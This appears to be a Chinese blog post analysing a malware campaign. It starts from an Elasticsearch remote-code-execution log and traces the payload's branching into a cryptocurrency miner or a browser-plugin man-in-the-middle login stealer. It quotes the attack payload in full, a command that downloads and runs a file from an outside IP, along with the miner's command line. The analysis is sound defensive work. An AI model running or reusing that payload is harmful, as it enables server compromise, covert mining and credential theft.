 ```yaml
---
layout: post
title: 一个使用浏览器插件加中间人攻击方式进行盗号的样本分析
description: "去年获取的某个样本分析"
category: analysis
tags: [analysis]
imagefeature: http://7xwdx7.com1.z0.glb.clouddn.com/5551e1cabd3bb.jpg
comments: true
share: true
---
```


### 背景

去年的某一天，在elastic search的某个QQ交流群中，有人贴出了一段日志，显示他的服务器被人进行了远程代码执行的攻击，日志内容如下：

{% highlight json %}

{
  "script": "java.lang.Math.class.forName("java.lang.Runtime").getRuntime().exec("cmd.exe /c echo open 58.215.19.139>f&echo 111>>f&echo qwe>>f&echo bin>>f&echo get h.zip>>f&echo bye>>f&ftp -s:f&cscript.exe /b /e:VBScript.Encode h.zip&del /f/q f&exit").getText()"
}

{% endhighlight %}

脚本大意是创建一个ftp脚本，从IP地址58.215.19.139下载一个名为h.zip的文件，并以vbscript的方式进行执行，执行完成后删除脚本。

### 展开初步分析

为了学习理解攻击方式，我下载了这个攻击载荷，并通过对vbscript的解码还原了该攻击载荷的攻击流程和攻击方式。

h.zip作为打头进行运行的恶意载荷负责进行系统信息探测和恶意程序加载工作。首先，它对以下相关系统信息进行探测：

* 获取注册表中操作系统语言
* 获取注册表中操作系统版本号
* 获取注册表中cpu核数
* 测试肉鸡是否能够翻墙
* 获取当前系统开机运行时间

在完成系统信息探测后，根据不同的操作系统版本、操作系统语言和操作系统用途，打头程序加载不同的恶意程序感染肉鸡的操作系统。

* 操作系统为XP，语言为简体或繁体中文且无法翻墙-->加载中文版本某mof文件
* 操作系统为XP，语言为简体或繁体中文且可以翻墙-->加载英文版本某mof文件
* 对于操作系统为XP，语言为简体或繁体中文的机器，进一步对其当前操作系统运行时间进行识别。若连续运行时间大于9小时，则使用dl.vbs进行下一步感染，dl.vbs感染的恶意程序主要用来连接比特币矿池进行挖矿；若连续运行时间小于9小时，则使用bdved.vbs进行下一步感染，bdved.vbs加载的恶意程序带有在用户进行网购时进行盗号的功能。
* 对于非XP版本或者其他语言版本的windows操作系统，加载英文版本某mof文件，并使用dl.vbs进行下一步感染。

### dl.vbs感染的恶意程序的主要功能

dl.vbs使用户下载一个dat文本文件和一个pe执行体，该dat文本文件中使用pe执行体执行如下命令：
`mstdc.exe -a m7 -o stratum+tcp://xcnpool.1gh.com:7333 -u CGX2U2oeocN3DTJhyPG2cPg7xpRRTzNZkz -p x --retries 5 --retry-pause=20`

该命令作用为开启一个名为MaxCoin 的矿池所使用的挖矿客户端，攻击者所使用的帐户为CGX2U2oeocN3DTJhyPG2cPg7xpRRTzNZkz。该矿池地址：http://max.1gh.com/

![MaxCoin](http://7xwdx7.com1.z0.glb.clouddn.com/MaxCoin.png)

### bdved.vbs感染的恶意程序的主要功能

bdved.vbs感染的恶意程序更为复杂，它含有两个压缩包、一个unrar.exe文件和一个bat文件。它的启动原理和攻击方式都更为隐蔽。攻击者通过命令：ping -n 5 127.0.0.1进行延时操作，不在下载完成的第一瞬间启动恶意程序。

恶意程序分为32位和64位两种版本，拥有不同的启动方式和可执行文件，具体的技术细节仍需要通过进一步分析进行还原。

值得注意的是该恶意软件的盗号方式比较新颖，使用的是浏览器插件+中间人攻击的方式。恶意软件启动后，一旦肉鸡操作系统安装了某些特定厂商的浏览器，恶意程序就试图在这些浏览器中安装用来进行中间人攻击的插件。

这些插件通过篡改浏览器端页面内的链接对http或https流量进行中间人攻击劫持，用户在登陆时提交的用户名、密码能够被攻击者截获并记录。具体原理如下：
* 恶意程序在肉鸡操作系统的360安全浏览器或百度浏览器安装恶意插件
* 浏览器恶意插件在用户访问以下域名时实施中间人攻击
![域名列表](http://7xwdx7.com1.z0.glb.clouddn.com/domainList.png)
* 恶意的浏览器插件将用户访问的页面地址及标题上传至控制端，控制端可以插入js脚本执行各种攻击动作。
![url1](http://7xwdx7.com1.z0.glb.clouddn.com/url1.png)
![url2](http://7xwdx7.com1.z0.glb.clouddn.com/url2.png)

完整攻击步骤可以整理为下图中所示：
![攻击步骤整理](http://7xwdx7.com1.z0.glb.clouddn.com/step.png)

### 一些思考
国内杀软通常会捆绑浏览器等大量系统软件，也就是所谓的“全家桶”。然而，这些附带的浏览器等系统软件居然被用来当作盗号的切入点。这些系统软件显然具有较高的优先级，杀毒软件没有对浏览器插件等进行严格的扫描和权限控制，这一点还是非常值得深入思考的。不得不说，有的时候最好的盾牌也是最锋利的长矛。
